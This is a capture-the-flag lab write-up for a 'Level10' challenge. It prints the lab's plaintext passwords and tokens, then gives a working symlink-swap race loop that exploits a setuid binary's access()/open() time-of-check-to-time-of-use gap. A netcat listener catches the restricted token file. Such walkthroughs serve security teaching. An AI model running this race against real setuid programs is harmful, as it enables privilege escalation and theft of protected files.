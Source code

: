 # Level10 - Flag10

## Local script usage

```shell
Usage: ./Ressources/main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level10 | `s5cAJpM8ev6XHw998pRWG728z` |
| flag10  | `woupa2yuojeeaaed06riuj63c` |
| token   | `feulo4b72j7edeahuete3no7c` |

## Steps to resolve on VM

1. Connect to `level10` user and notice there is an executable and a token file owned by `flag10` user

```bash
ssh level10@$SNOW_HOST -p 4242
# Enter the password

ls -l

> -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
> -rw-------  1 flag10  flag10     26 Mar  5  2016 token
```

2. Check the files

```bash
./level10

> ./level10 file host
>        sends file to host if you have access to it
# We have here the file usage

./level10 token 127.0.0.1

> You do not have access to token
# Indeed, we don't have permissions. It does not work neither with a symbolic link.

echo abc > /tmp/abc
./level10 /tmp/abc 127.0.0.1

> Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
# We discover here that the program uses the port 6969. Is it open ?
```

3. Listen the port 6969

Lets check listening ports :

```bash
netstat -tulpn | grep LISTEN

> tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN      -
> tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -
> tcp6       0      0 :::4646                 :::*                    LISTEN      -
> tcp6       0      0 :::4747                 :::*                    LISTEN      -
> tcp6       0      0 :::80                   :::*                    LISTEN      -
> tcp6       0      0 :::4242                 :::*                    LISTEN      -
```

It appears that we are not listening the port 6969. We need to open this port to be able to receive the file sended by the program `level10`. We can use the tool `netcat` for this job.

```bash
netcat -lk 6969
# -l    listen
# -k    keep listening
```

The VM is now listening the port 6969.

We can check it with `netstat`

```bash
netstat -tulpn | grep 6969

> tcp        0      0 0.0.0.0:6969            0.0.0.0:*               LISTEN      <PID>/netcat
```

4. Send a file with `level10` program through host:6969

The port 6969 is now open. Lets try to send a file through

```bash
echo abc > /tmp/abc
./level10 /tmp/abc 0.0.0.0

> Connecting to 0.0.0.0:6969 .. Connection from 127.0.0.1 port 6969 [tcp/*] accepted
> .*( )*.
> Connected!
> Sending file .. abc
> wrote file!
```

It works perfectly.

But we still don't have the permission to token file.

```bash
./level10 ~/token 0.0.0.0

> You do not have access to /home/user/level10/token
```

5. Explore `level10` binary

At this moment we are stuck and we need to find a way to read the token content without permissions.

Lets explore level10 binary using `nm` to list external calls

```bash
nm -u level10

>         U access@@GLIBC_2.0
>         U connect@@GLIBC_2.0
>         U exit@@GLIBC_2.0
>         U fflush@@GLIBC_2.0
>         U htons@@GLIBC_2.0
>         U inet_addr@@GLIBC_2.0
>         U open@@GLIBC_2.0
>         U printf@@GLIBC_2.0
>         U puts@@GLIBC_2.0
>         U read@@GLIBC_2.0
>         U socket@@GLIBC_2.0
>         U strerror@@GLIBC_2.0
>         U write@@GLIBC_2.0
```

What is access ?

```bash
man access
```

> NAME <br />
> access - check real user's permissions for a file <br />

> DESCRIPTION <br />
> access() checks whether the calling process can access the file pathname. If pathname is a symbolic link, it is dereferenced.

> (...)

> NOTES <br /> > **Warning**: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a **security hole**, because **the user might exploit the short time interval between checking and opening the file** to manipulate it.

6. Exploit `access`' security hole

Lets exploit this security hole.

We have to exploit the _"short time interval between checking and opening the file"_

```bash
echo "not the token" > /tmp/isnottoken
while true; do
    ln -sf /tmp/isnottoken /tmp/token
    ln -sf ~/token /tmp/token
done
```

The symbolic link `/tmp/token` will swap very often between the file created by us and the token file, that is restricted.

We hope that access tool will authorize us to acceed to `/tmp/isnottoken` (the file created by us), and then (after changing the symlink reference) open `~/token`.

The behavior is random and needs some luck, so we need to launch multiple times the program to exploit the security hole.

```bash
for i in {1..30}; do
    ~/level10 /tmp/token 0.0.0.0
done
# Try again if necessary

> Connecting to 0.0.0.0:6969 .. .*( )*.
> Connected!
> Sending file .. not the token
> wrote file!
> You do not have access to /tmp/token
> Connecting to 0.0.0.0:6969 .. .*( )*.
> Connected!
> Sending file .. not the token
> wrote file!
> Connecting to 0.0.0.0:6969 .. .*( )*.
> Connected!
> Sending file .. woupa2yuojeeaaed06riuj63c # YEAH!
> wrote file!
```

After many tries, we can see a token: `woupa2yuojeeaaed06riuj63c` !

7. Get level flag

```bash
su flag10
# Enter password

> Don t forget to launch getflag !

getflag

> Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

---

## Sources

### Shell

- [Check ports in use](https://www.cyberciti.biz/faq/unix-linux-check-if-port-is-in-use-command/)
- [Man netcat](https://linux.die.net/man/1/nc)
- [Man nm](https://linux.die.net/man/1/nm)
- [Man access](https://linux.die.net/man/2/access)
